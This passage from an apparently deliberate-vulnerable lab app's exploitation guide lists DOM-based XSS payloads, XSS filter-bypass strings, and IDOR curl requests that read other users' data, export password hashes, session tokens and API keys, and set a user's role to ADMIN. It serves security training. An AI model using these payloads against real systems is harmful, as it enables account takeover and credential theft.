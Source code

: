 #### 2.3 DOM-based XSS
**Location:** `/api/documents/preview`
**Exploitation:**
```html
# JavaScript context injection
http://localhost:3020/api/documents/preview?url=javascript:alert(1)&callback=alert

# HTML attribute context
http://localhost:3020/api/documents/preview?url="><script>alert(1)</script>
```

#### 2.4 XSS Filter Bypass Techniques
```html
# Filter bypasses for medium/hard levels
<ScRiPt>alert(1)</ScRiPt>  <!-- Case variation -->
<script>alert(1)</script>  <!-- Unicode -->
<svg/onload=alert(1)>      <!-- No spaces -->
<img src=x onerror=alert(1)>  <!-- Event handlers -->
<iframe srcdoc="<script>alert(1)</script>">  <!-- srcdoc -->
```

### 3. Insecure Direct Object Reference (IDOR)

#### 3.1 User Profile Access
**Location:** `/api/profile/user/{userId}`
**Exploitation:**
```bash
# Access any user's profile
curl "http://localhost:3020/api/profile/user/1"
curl "http://localhost:3020/api/profile/user/admin"

# Extract sensitive data
curl "http://localhost:3020/api/users/export/1?format=full"
```

#### 3.2 Profile Modification IDOR
**Location:** `/api/users/{id}`
**Exploitation:**
```bash
# Modify any user's profile
curl -X PUT "http://localhost:3020/api/users/1" \
  -H "Content-Type: application/json" \
  -d '{"email":"hacker@evil.com","role":"ADMIN","password":"hacked123"}'
```

#### 3.3 Data Export IDOR
**Location:** `/api/users/export/{userId}`
**Exploitation:**
```bash
# Export any user's complete data including password hash
curl "http://localhost:3020/api/users/export/1?format=full"

# Response includes:
# - password_md5
# - sessionToken
# - apiKey
# - grades
```
